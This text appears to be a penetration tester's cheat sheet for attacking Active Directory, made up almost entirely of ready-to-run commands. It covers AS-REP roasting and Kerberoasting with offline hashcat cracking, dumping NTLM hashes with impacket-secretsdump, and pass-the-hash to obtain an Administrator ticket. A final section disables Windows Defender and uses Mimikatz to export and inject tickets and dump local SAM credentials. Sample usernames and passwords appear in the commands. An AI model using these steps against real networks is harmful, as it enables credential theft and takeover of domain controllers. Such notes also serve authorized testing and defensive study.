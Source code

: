Using CME, we can find accounts with no Preauth using:

`crackmapexec ldap 172.140.0.40 -u users.txt -p '' --asreproast out.txt`

And crack the account password offline using:
hashcat -m18200 out.txt passwords.txt

Ref: https://wiki.porchetta.industries/ldap-protocol/asreproast

# Kerberoasting (Needs Domain Account)

Fetch TGS tickets:

> users.txt contains: http_svc$ | mssql_svc$ | exchange_svc$

> Ref: getUsersSPNs.py from https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py

Run:

`python getUserSPNs.py xyz.com/nmorgan:christ -usersfile users.txt -outputfile hashes.kerberoast`

- Crack TGS:

`hashcat -m13100 --force -a 0 hashes.kerberoast passwords.txt`

# Overpass The Hash/Pass The Key (PTK)

## Drop NTLM Hashes (Requires Local Admin Account at least)

`impacket-secretsdump xyz.com/bavery:lalala@172.140.0.40`

### Drop only NTLM hashes

`impacket-secretsdump -just-dc-ntlm xyz.com/bavery:lalala@172.140.0.40`

- Grab Administrator account LMHASH:NTHASH hash
- Get Administrator TGT

```sh
impacket-getTGT xyz.com/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:4124f2ac13cbf884c4e0d592846485af

export KRB5CCNAME=/root/Desktop/Administrator.ccache

impacket-wmiexec xyz.com/Administrator@dc01.xyz.com -k -no-pass -debug

impacket-smbclient xyz.com/Administrator@dc01.xyz.com -k -no-pass -debug
```

# Pass The Ticket

- Login as Local Admin in DC using Remote Desktop
- Install Git
- Disable Windows Defender to run Mimikatz (now we can run impacket-psexec: impacket-psexec xyz.com/Administrator@dc01.xyz.com -k -no-pass -debug)
- Install PsExec (https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
- Install Mimikatz
	- `privilege::debug`
	- `token::whoami`
	- `token::elevate`
	- `kerberos::list /export` (Exports tickets to current folder)
	- `kerberos::ptt 0-40e10000-bavery@krbtgt~XYZ.COM-XYZ.COM.kirbi`
	- `klist`
	- `.\PsExec.exe -accepteula \\dc01.xyz.com cmd`
	- Local Credentials (SAM): `lsadump::sam`